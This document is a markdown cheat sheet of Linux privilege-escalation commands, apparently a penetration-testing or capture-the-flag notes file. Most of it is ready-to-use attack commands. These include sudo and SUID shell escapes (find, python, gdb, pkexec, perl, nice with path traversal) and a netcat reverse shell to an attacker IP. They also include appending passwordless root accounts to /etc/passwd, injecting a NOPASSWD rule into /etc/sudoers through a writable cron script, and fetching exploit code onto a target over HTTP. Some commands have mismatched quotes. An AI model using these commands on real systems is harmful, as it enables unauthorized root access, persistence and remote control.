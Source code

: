 [gtfobins](https://gtfobins.github.io/)
- __Finding SUID__
  - __`find / -perm -4000 2>/dev/null`__
  
- __`find / -writable -type f 2>/dev/null`__

- __`sudo -l`__
  - __If you see this output `(root) NOPASSWD:/usr/bin/find`__
    - __`sudo find . -exec /bin/sh \; -quit` or without sudo also you can run__

- __Check for cronjob__
  - __It is used to execute file every 1m or 5m__
  - __`cat /etc/crontab`__
    - __for exame it's look like this `*/5 * * * * root /writable/script.sh` so here the `script.sh` will execute every 5m__
    - __you can inject this command echo `user ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers`__

- __using netcat__
  - __`nc <ip> <port > -e /bin/sh`__

- __creating a new user__
  - __`echo "newRoot::0:0:newRoot:/home/newRoot:/bin/sh" >> /etc/passwd`__
  - __`echo 'root2::0:0:root:/root:/bin/bash' | sudo tee -a /etc/passwd`__
    - __`su root2`__
 

- ## Privilege escalation <a name="privilegeescalation"></a>

- __`python3 -c 'import os; os.system("/bin/bash")'`__
- 
- `find /  -perm -u=s -type f 2>/dev/null``` to see the permission`
- Use ```linpeas``` if you are not getting any escalation
  - download the script from the github
- If It was running on Linux Kernel 4.4.0–31-generic and Ubuntu 14.04.5 LTS. use below command
  - ```wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh```
  - ```chmod +x linux-exploit-suggester.sh``` and ```./linux-exploit-suggester.sh```
  - you will get some CVE, select any one CVE in that download URL will be there using that link you can download scripts
  - ```wget (download URL in CVE)``` download the file in your system
  - run ```sudo python -m http.server 80```
  - download the file in the target system `wget http://<myip>/<filename>`
  - example: wget http://192.168.45.161/root.cpp
 
  
 - ```bash -p```
   
- if you find ```/usr/bin/python2.7``` in sudo -l
  - then use the below command it will give you the root privilege
  - ```/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'```
 
- if you find ```/usr/bin/gbd``` in sudo -l
  - then use the below command it will give you the root privilege
  - ```/usr/bin/gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit```
 

- if you find ```/usr/bin/pkexec``` in ```sudo -l``` 
  - then use the below command it will give you the root privilege
  - ```sudo pkexec /bin/bash```

- if you find ```/usr/bin/mtr``` in ```sudo -l``` 
  - then use the below command it will give you the root privilege
  - ```LFILE=/root/proof.txt```
  - ```sudo mtr --raw -F "$LFILE"```

- if you find ```/usr/bin/time``` in ```sudo -l``` 
  - then use the below command it will give you the root privilege
  - ```sudo /usr/bin/time /bin/bash```

- if you find ```(ALL : ALL) /bin/nice /notes/*``` in ```sudo -l```
  - it shows that you can run all the files in the /notes directory with /bin/nice binary.
  - so create a script letsgetroot.sh which executes /bin/bash and gave the necessary permissions.
  - ```echo "/bin/bash" >> letsgetroot.sh``` save the file in any directory
  - ```sudo /bin/nice /notes/../home/user/letsgetroot.sh``` it will give the root access.


- if you find ```(ALL : ALL) NOPASSWD: /usr/bin/perl``` in ```sudo -l```
  - then use the below command it will give you the root privilege
  - ```sudo perl -e 'exec "/bin/bash";'```
